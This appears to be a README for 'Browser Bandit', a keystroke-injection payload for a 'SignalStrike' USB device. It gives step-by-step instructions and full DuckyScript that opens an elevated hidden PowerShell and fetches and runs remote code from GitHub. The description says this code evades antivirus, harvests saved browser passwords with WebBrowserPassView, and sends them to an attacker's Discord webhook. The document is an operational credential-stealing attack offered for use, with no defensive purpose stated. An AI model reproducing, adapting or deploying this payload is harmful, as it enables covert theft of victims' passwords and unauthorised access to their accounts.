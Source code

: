 ###**Browser Bandit (SignalStrike)**


Requirements:

    hardware: Code-382 SignalStrike (store)
    Attacker: Windows/Linux/MacOS/Android/iOs with Discord installed
    Target: Windows 7/10/11

Browser Bandit can be deployed alongside the Code-382 Signal Strike. This combination leverages a PowerShell payload that executes directly in the system’s memory, bypassing antivirus detection and eliminating the need to write files locally. The PowerShell script then downloads Nirsoft’s WebBrowserPassView application, runs it, and collects any discovered passwords. The resulting password data is saved in a .txt file, which is then transmitted to the attacker’s Discord Webhook.

1. Create a Discord Webhook

To set up a Discord webhook, follow these steps:

    Create a new Discord server (if you don’t have one already).
    Right-click on the server icon and select Server Settings.
    Navigate to Integrations > New Webhook.

    Copy the webhook link and save it somewhere safe for later use.

2. Download Payload.txt

Next, you need to download Payload.taxt. You can get it either from the Code-382 GitHub repository or by copying the code provided below.

In the Payload.txt file, locate line 12 and replace <DISCORD WEBHOOK HERE> with your actual Discord webhook URL (without the angle brackets <>).

Payload.txt (Code-382 Github)

DELAY 100
GUI d
GUI r
DELAY 500
STRING powershell
CONTROL SHIFT ENTER
DELAY 3000
ALT Y
ENTER

DELAY 3000
STRING $webhook = '<DISCORD WEBHOOK HERE>'
ENTER
SPACE
STRING Start-Process powershell -ArgumentList "-NoProfile -WindowStyle Hidden -Command `$webhook='$webhook'; iex (iwr 'https://raw.githubusercontent.com/Code-382/Payload-Depot/main/SignalStrike/Browser%20Bandit/BrowserBandit.txt').Content" -NoNewWindow
ENTER

3. Upload Your Payload to SignalStrike

    Plug in your SignalStrike device.
    Connect to its WiFi network (Default SSID: SignalStrike, Password: SignalStrike).
    Open a web browser and go to 192.168.4.1 to access the control panel.
    Create a new payload and name it “Browser Bandit.”
    Paste your modified Payload.txt (with the webhook) into the text box provided.
    Save the payload and execute it.
